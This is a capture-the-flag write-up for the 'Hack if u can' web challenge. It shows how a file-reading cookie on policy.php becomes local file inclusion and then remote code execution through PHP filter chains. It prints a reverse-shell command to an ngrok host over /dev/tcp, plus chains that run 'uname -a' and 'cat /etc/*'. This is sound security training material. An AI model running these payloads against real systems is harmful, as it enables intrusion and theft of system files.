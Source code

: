 Challenge Name: Hack if u can

Challenge Description: Find the RCE to get access to the system

The goal is to get an RCE.

First thing, when you open the website, website there is nothing useful. I try to do fuzzing; I find a robots.txt and nothing useful, and I search for an for an exploit for the server Vesrion nginx 1.25.2, and the same thing is not useful.

![image](https://github.com/user-attachments/assets/ba835251-3fa5-4720-8e3e-c2b8cec71630)

After digging in the website i found two usefull dir robots.txt and policy.php when you access the robots.txt this is the content

Robots.txt:

![image](https://github.com/user-attachments/assets/159d97e2-b71f-4a2e-831a-8727fa3b3631)

Now we know where is the flag file

Then when try to access the policy.php there is a cookie called read have an md5hash end with .txt i try to decrypt it i and i got this

![image](https://github.com/user-attachments/assets/0e97a5c7-846f-4335-980c-2fe2332fa201)

read:b204217b677944e7c8d2a12c670b5467.txt

After decrypting it

read:myfile.txt

I noticed what happens if i put the flag file directly in the cookie,and this is the output:

![image](https://github.com/user-attachments/assets/77c84997-6bb6-47bb-ace4-0c60f36a60d2)

Then i try to read the /etc/password and it's work then i try to do php wrapper and it work

![image](https://github.com/user-attachments/assets/aa78ef2d-9814-4e6b-bdc0-cd3425e7361e)

Now let's make lfi2rce i use this tool php_filter_chain_generator for this step

First i try to read the phpinfo(); and it's work 
![image](https://github.com/user-attachments/assets/6d681caa-86cf-401a-a502-863bf5f878c5)

Then i try to make a rev shell like this ```python php_filter_chain_generator.py --chain '& /dev/tcp/6.tcp.eu.ngrok.io/14246 0>&1") ?>'```

but when i try it did not work becuse it's vary large payload

i try to run tThenhe command directly like that php_filter_chain_generator.py --chain '<?php system("uname -a");?>' 

![image](https://github.com/user-attachments/assets/9e8f4006-f965-40df-95f0-503971e9661e)

Then i try to read all the file of the /etc/ dir i try this payload python php_filter_chain_generator.py --chain '<?php system("cat /etc/*");?>'

![Screenshot 2024-09-25 155901](https://github.com/user-attachments/assets/6c29cfce-050b-4e53-bb4b-aefdbc4fc308)

Finaly i read the flag file

